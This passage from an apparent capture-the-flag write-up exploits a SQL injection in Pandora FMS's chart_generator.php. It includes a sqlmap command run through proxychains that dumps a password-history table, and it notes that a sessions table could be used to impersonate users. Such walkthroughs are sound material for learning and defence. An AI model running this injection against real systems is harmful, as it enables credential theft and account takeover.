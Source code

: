 ![](_attachments/pandora10.PNG)

`tpassword_history` sounds interesting... Let's dump it

```bash
proxychains sqlmap --url="http://localhost/pandora_console/include/chart_generator.php?session_id=''" -D pandora -T tpassword_history --dump
```

![](_attachments/pandora11.PNG)

There was also a `tsessions_php` table which seemingly stored the session data, which could be used to used to impersonate a user according to the blog post.
